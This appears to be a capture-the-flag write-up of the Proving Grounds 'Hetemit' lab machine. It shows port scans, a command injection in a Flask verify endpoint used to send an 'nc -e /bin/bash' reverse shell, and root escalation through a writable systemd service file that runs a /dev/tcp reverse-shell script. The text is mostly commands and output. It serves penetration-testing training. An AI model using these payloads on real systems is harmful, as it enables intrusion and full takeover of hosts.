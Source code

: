 ```yaml
---
title: "Proving grounds Practice: Hetemit"
layout: post
date: 2024-03-27 02:00
categories: writeup
---
```


Proving grounds - Hetemit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
```

## 21/tcp    open  ftp         vsftpd 3.0.3

anonymous login successfull
nothing...

## 139/tcp   open  netbios-ssn Samba smbd 4.6.2
## 445/tcp   open  netbios-ssn Samba smbd 4.6.2

```sh
naveenj@hackerspace:[06:54]~/proving_grounds/Hetemit$ smbclient -L //192.168.201.117/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Cmeeks          Disk      cmeeks Files
	IPC$            IPC       IPC Service (Samba 4.11.2)
Reconnecting with SMB1 for workgroup listing.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

## 50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

- http://192.168.201.117:50000/verify

```sh
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=4*4" http://192.168.201.117:50000/verify
16
```
Vulnerable to command injection

```sh
#inject reverse shell
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=os.system('nc -e /bin/bash 192.168.45.218 80')" http://192.168.201.117:50000/verify
# netcat listening
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 50652
which python
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
[cmeeks@hetemit restjson_hetemit]$ 
```

Initial foothold obtained.

## Privilege Escalation

### Linpeas Enumeration
```sh
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

/usr/sbin/suexec = cap_setgid,cap_setuid+ep

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/pythonapp.service
```

### Exploitation

Writing shell to file `/etc/systemd/system/pythonapp.service`.

**Original content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Modified Content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/run.sh #add reverse shell in the bash script
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**run.sh**

```sh
#!bin/bash

bash -c 'sh -i >& /dev/tcp/192.168.45.218/22 0>&1'
```

```sh
naveenj@hackerspace:[07:28]~/proving_grounds/Hetemit$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 39016
sh: cannot set terminal process group (989): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# 
```

**Root Obtained**

## References

- https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
- https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
